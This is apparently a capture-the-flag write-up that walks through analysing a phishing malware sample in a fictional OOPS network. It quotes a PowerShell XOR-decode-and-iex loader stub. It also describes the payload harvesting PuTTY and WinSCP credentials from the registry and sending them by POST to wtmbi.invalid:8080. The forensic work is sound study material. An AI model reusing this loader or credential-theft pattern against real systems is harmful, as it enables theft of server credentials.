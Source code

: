 	$prev = [byte] 173

	$dec = $(for ($i = 0; $i -lt $bytes.length; $i++) {
    		$prev = $bytes[$i] -bxor $prev
    		$prev
	})

	iex([System.Text.Encoding]::UTF8.GetString($dec))
7. we see it is downloading data, but notice that xomtq.invalid doesn't work so we gotta look more into it... we see that we should look at the HEX stream from the 200 HTTP request
8. Booting up VS Code, we need to write a script that takes the hex_val stream and put it into byte format, which we do via unhexlify
9. Next we do the same operation that is being done in the ASCII text from step 6 but in Python
10. Make sure to join all the items in the list and print it out, we get a huge powershell script and output that to fullpowershell.txt and then see at the bottom a POST request sent to http://wtmbi.invalid:8080
11. going back to message_9.eml, I used "head message_9.eml" to find the Message-ID as <161584985300.22130.15351049748726194876@oops.net>
12. Submit Message-ID and domain name to the challenge (wtmbi.invalid) and SUCCESS

# Task 4
A number of OOPS employees fell victim to the same attack, and we need to figure out what's been compromised! Examine the malware more closely to understand what it's doing. Then, use these artifacts to determine which account on the OOPS network has been compromised.

Downloads:
- OOPS forensic artifacts (artifacts.zip)

## Solution
1. look at the fullpowershell.txt from last and identify what it is doing
	
    a. you see that it is going into specific registries (PuTTY and WinSCP)
	
    b. identify what is being taken for each registry

    -  PuTTY -> Source, Session, Hostname, Keyfile
		
    -  WinSCP -> Source, Session, Hostname, Username, Password

2. So now you know what is being taken and you know that the prettyXML.xml contains the registries -> next need to figure out how to find the right data
	
    a. looking at the differences amongst the artifacts (only the ppks bc those are PuTTY private keys), you notice that some do NOT use any encryption -> this means that it is easier for a hacker to exploit (dkr_prd93, dkr_prd54, dkr_tst67, dkr_tst70, dkr_tst76)

3. looking into the XML file, we search for the dkr that are not encrypted, you find a node within with dkr_prd93 yayyyy (builder07@dkr_prd93)
	
    a. machine name = dkr_prd93


    b. builder07

# Task 5
A forensic analysis of the server you identified reveals suspicious logons shortly after the malicious emails were sent. Looks like the actor moved deeper into OOPS' network. Yikes.
